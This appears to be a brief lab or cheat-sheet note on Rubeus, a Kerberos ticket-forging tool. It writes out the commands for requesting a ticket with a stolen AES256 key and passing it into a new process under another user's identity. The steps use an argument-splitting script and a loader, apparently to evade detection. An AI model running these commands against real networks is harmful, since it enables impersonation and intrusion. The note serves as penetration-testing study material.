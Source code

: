 command-line tool developed to **misuse and manipulate Kerberos authentication**. basically used to forge tickets.

from local system using elevated shell, run 
```
C:\AD\Tools\ArgSplit.bat
```
```
asktgt
```
copy paste output and then:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:<user> /aes256:<aes_hmac> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
new process starts with <user> privilege
